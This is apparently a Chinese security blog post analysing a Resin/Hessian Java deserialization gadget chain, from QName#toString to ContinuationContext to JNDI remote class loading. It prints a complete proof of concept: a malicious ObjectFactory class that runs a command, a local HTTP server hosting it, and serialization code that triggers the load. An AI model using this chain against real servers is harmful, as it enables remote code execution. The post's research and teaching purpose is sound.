










---
title: "Java反序列化之Resin反序列化"
date: 2025-11-20T15:55:29+08:00
summary: "Java反序列化之Resin反序列化"
url: "/posts/Java反序列化之Resin反序列化/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# Resin介绍

Resin是由Caucho Technology开发的一款轻量级的、高性能的开源Java应用服务器，它支持JSP和Servlet，和Apache Server一样，它擅长处理动态内容，也能高效显示静态内容，旨在提供可靠的Web应用程序和服务的运行环境。

# 影响版本&环境搭建

Resin = 4.0.64

在pom.xml中添加依赖

```xml
  <dependency>
    <groupId>com.caucho</groupId>
    <artifactId>resin</artifactId>
    <version>4.0.64</version>
  </dependency>
```

它和hessian在一个组件里，所以会有一定的联系，在导入依赖后也能看到hessian的依赖

# QName#toString利用链

## QNAME#toString

漏洞点在于QNAME的toString，来看看QName是干什么的



是用来表示解析的JNDI名称的，而`_context`表示根上下文命名空间的，`_items`是用来保存名字片段的数组

然后我们看看toString函数在干啥

```java
  public String toString()
  {
    String name = null;

    for (int i = 0; i < size(); i++) {
      String str = (String) get(i);
      
      if (name != null) {
        try {
          name = _context.composeName(str, name);
        } catch (NamingException e) {
          name = name + "/" + str;
        }
      }
      else
        name = str;
    }

    return name == null ? "" : name;
  }
```

for循环遍历 `_items`，调用composeName方法按_context上下文的命名规则组合成一个完整的名字；如果规则无法组合就直接用`/`进行拼接

QName 实际上是 Resin 对上下文 Context 的一种封装，它的 toString 方法会调用其封装类的 `composeName` 方法。

我们看看构造方法



是公开属性的，那我们这里可以找到一个合适的`_context`去调用任意**继承了Context接口的类**的`composeName` 方法。

## ContinuationContext#composeName

找到一个ContinuationContext类，它继承了`Context`接口，我们看看它的composeName方法



跟进这个方法看一下

```java
    protected Context getTargetContext() throws NamingException {
        if (contCtx == null) {//如果还没初始化就创建它，否则就直接返回
            if (cpe.getResolvedObj() == null)
                throw (NamingException)cpe.fillInStackTrace();

            contCtx = NamingManager.getContext(cpe.getResolvedObj(),
                                               cpe.getAltName(),
                                               cpe.getAltNameCtx(),
                                               env);
            if (contCtx == null)
                throw (NamingException)cpe.fillInStackTrace();
        }
        return contCtx;
    }
```

cpe就是ContinuationContext类的构造方法里的CannotProceedException类的对象，getResolvedObj()返回的是已经解析到的对象，这个对象可能是一个Context 对象，也可能是Reference 对象

我们跟进getContext方法看一下

```java
    static Context getContext(Object obj, Name name, Context nameCtx,
                              Hashtable<?,?> environment) throws NamingException {
        Object answer;

        if (obj instanceof Context) {
            // %%% Ignore environment for now.  OK since method not public.
            return (Context)obj;
        }

        try {
            answer = getObjectInstance(obj, name, nameCtx, environment);
        } catch (NamingException e) {
            throw e;
        } catch (Exception e) {
            NamingException ne = new NamingException();
            ne.setRootCause(e);
            throw ne;
        }

        return (answer instanceof Context)
            ? (Context)answer
            : null;
    }
```

如果这个对象是Context 对象，就直接返回

跟进getObjectInstance函数



先是判断传入对象是否是Reference或可转换为Reference，后面会对Reference进行解析，重点在于`factory = getObjectFactoryFromReference(ref, f);`这段代码，他会从Reference中获取工厂类的位置或远程URL去加载类，这也意味着会存在JNDI的引用解析





最终是通过URLClassLoader进行类加载的，所以这里能进行远程类加载。

从上面可以看出，在getTargetContext函数里面，如果cpe是一个Reference引用对象的话，就会触发JNDI的引用解析过程，从而达到一个JNDI注入的效果

所以我们在获取到CannotProceedException的对象的时候就需要通过`setResolvedObj`方法把恶意对象塞进去。



最后我们再进行toString的触发就行了

# HashMap+XString触发toString

## 最终链子1

```java
HashMap#readObject()->
    HashMap#putVal()->
    	XString#equals()->
    		QName#toString()->
    			ContinuationContext#composeName()->
    				URLClassLoader#newInstance()
```

## 最终POC1

在VPS上写一个恶意类Exploit

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.io.Serializable;
import java.util.Hashtable;
 
public class Exploit implements ObjectFactory, Serializable {
    public Exploit() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
 
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
 
    public static void main(String[] args) {
        Exploit exploit = new Exploit();
    }
}
```

编译成class文件

在构建目录下开启8000端口进行访问

```bash
python -m http.server 8000
```

然后我们写poc

```java
package SerializeChains.HessianChains;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.CannotProceedException;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Hashtable;

public class ResinQnamePoc {
    public static void main(String[] args) throws Exception {
        /*Hessian2Input#readObject()->
         *   HashMap#putVal()->
         *       XString#equals()->
         *           QName#toString()->
         *               ContinuationContext#composeName()->
         *                   URLClassLoader#newInstance()
         * */

        //反射获取ContinuationContext的构造方法
        Class<?> cls = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> ctor = cls.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ctor.setAccessible(true);

        //分别构造一个CannotProceedException对象和一个Hashtable对象
        //配置一个cpe并将恶意的Reference对象加载进去
        Reference refObj = new Reference("Exploit","Exploit","http://127.0.0.1:8000/");
        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(refObj);
        //实例化一个Hashtable对象
        Hashtable<?, ?> hashtable = new Hashtable<>();
        Context context =  (Context) ctor.newInstance(cpe,hashtable);


        QName qname = new QName(context,"aaa","bbb");
        String unhash = unhash(qname.hashCode());  //unhash的目的是为了绕过hashmap的hashcode判断，进入equals

        //触发toString方法
        XString xString = new XString(unhash);
        HashMap hashmap1 = new HashMap();
        HashMap hashmap2 = new HashMap();
        // 这里的顺序很重要，不然在调用equals方法时可能调用的是JSONArray.equals(XString)
        hashmap1.put("yy",qname);
        hashmap1.put("zZ",xString);
        hashmap2.put("yy",xString);
        hashmap2.put("zZ",qname);
        HashMap map = makeMap(hashmap1,hashmap2);


        byte[] poc = Hessian2_serialize(map);
        Hessian2_unserialize(poc);
    }
    public static String unhash ( int hash ) {
        int target = hash;
        StringBuilder answer = new StringBuilder();
        if ( target < 0 ) {
            // String with hash of Integer.MIN_VALUE, 0x80000000
            answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");

            if ( target == Integer.MIN_VALUE )
                return answer.toString();
            // Find target without sign bit set
            target = target & Integer.MAX_VALUE;
        }

        unhash0(answer, target);
        return answer.toString();
    }
    private static void unhash0 ( StringBuilder partial, int target ) {
        int div = target / 31;
        int rem = target % 31;

        if ( div <= Character.MAX_VALUE ) {
            if ( div != 0 )
                partial.append((char) div);
            partial.append((char) rem);
        }
        else {
            unhash0(partial, div);
            partial.append((char) rem);
        }
    }
    //hashmap的put实际上就是，这个具体用法我也不清楚
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 这里是在通过反射添加map的元素，而非put添加元素，因为put添加元素会导致在put的时候就会触发RCE，
        // 一方面会导致报错异常退出，代码走不到序列化那里；另一方面如果是命令执行是反弹shell，还可能会导致反弹的是自己的shell而非受害者的shell
        setFieldValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(map, "table", tbl);
        return map;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }

    //hessian依赖的序列化
    public static byte[] Hessian2_serialize(Object o) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(baos);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(o);
        hessian2Output.flush();
        return baos.toByteArray();
    }

    //hessian依赖的反序列化
    public static Object Hessian2_unserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(bais);
        Object o = hessian2Input.readObject();
        return o;
    }
}

```

函数调用栈



unhash的目的是为了绕过hashmap的hashcode判断，进入equals，并且这条链子不是通过HashMap的readObject方法去触发，因为Hessian在反序列化的时候会触发HashMap的put方法，进而触发putVal方法





# ROME反序列化调用任意getter方法

从上面的代码可以看到，getTargetContext函数本质上是属于getter方法，那么不难想到用ROME的ToStringBean#toString方法去触发任意getter方法
